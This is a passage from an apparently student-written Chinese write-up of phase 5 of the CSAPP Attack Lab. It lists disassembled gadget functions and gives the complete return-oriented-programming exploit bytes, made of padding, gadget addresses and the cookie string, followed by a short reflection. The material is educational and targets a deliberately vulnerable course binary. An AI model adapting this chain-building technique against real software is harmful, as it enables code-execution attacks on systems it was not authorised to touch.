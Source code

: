 第五条：

```assembly
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3  
```

第六条：

```assembly
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3                    retq 
```

第七条：

```assembly
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq 
```

第八条：

```assembly
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

截取gadget中所有指令的地址，最后补上cookie的转义ascii码得到最后的exploit code：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61 

```

![1.13](D:\CSAPP\write-ups\attacklab\1.13.png)

Phase5完成！

## 总结

本次实验让我充分领悟了stackoverflow以及ROP的原理，尤其是亲手操作一遍过后，更觉得这是一个充满智慧的漏洞，希望以后可以多做做这方面的探索与练习！
